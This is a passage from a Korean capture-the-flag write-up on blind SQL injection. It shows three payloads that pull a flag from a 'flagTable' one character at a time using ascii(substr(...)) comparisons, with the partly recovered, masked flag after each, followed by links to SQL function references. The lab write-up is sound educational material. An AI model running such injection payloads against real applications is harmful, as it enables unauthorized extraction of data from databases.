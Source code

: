 ### 5.3. 이름 확인
* 요것도 예측해서 반복 횟수를 줄일 수 있었다.
* 예측 결과가 그대로 flag랑 이어지기 때문에 생략하겠다.

---

1. **normaltic' and (ascii(substr(((select flag from flagTable)), 1, 1)) = 115) #**
-> O  
-> 찾은 글자: sxxxx xxxxx xxxxx xxxxx xxxxx xxxxx x  
1. **normaltic' and (ascii(substr(((select flag from flagTable)), 9, 1)) = 123) #**
-> O  
-> 찾은 글자: sxxxx xxx{x xxxxx xxxxx xxxxx xxxxx x  
1. **normaltic' and (ascii(substr(((select flag from flagTable)), 33, 1)) = 125) #**
-> O  
-> 찾은 글자: sxxxx xxx{x xxxxx xxxxx xxxxx xxxxx xx}  



# 참고
* [SQL 문자열 길이 출력 함수](https://lcs1245.tistory.com/entry/SQL-%EB%AC%B8%EC%9E%90%EC%97%B4-%EA%B8%B8%EC%9D%B4-%EC%B6%9C%EB%A0%A5-%ED%95%A8%EC%88%98-LENGTH-CHARLENGTH-LEN-DATALENGTH-LENGTHB)
* [SQL 특정 개수의 값 출력](https://lcs1245.tistory.com/entry/SQL-%ED%8A%B9%EC%A0%95-%EA%B0%9C%EC%88%98%EC%9D%98-%EA%B0%92-%EC%B6%9C%EB%A0%A5-SELECT-TOP-N-TOP-LIMIT-ROWNUM?category=348747)
* [MySQL CHAR_LENGTH() Function](https://www.w3schools.com/sql/func_mysql_char_length.asp)
* [MySQL SUBSTR() Function](https://www.w3schools.com/sql/func_mysql_substr.asp)
* [MySQL ASCII() Function](https://www.w3schools.com/sql/func_mysql_ascii.asp)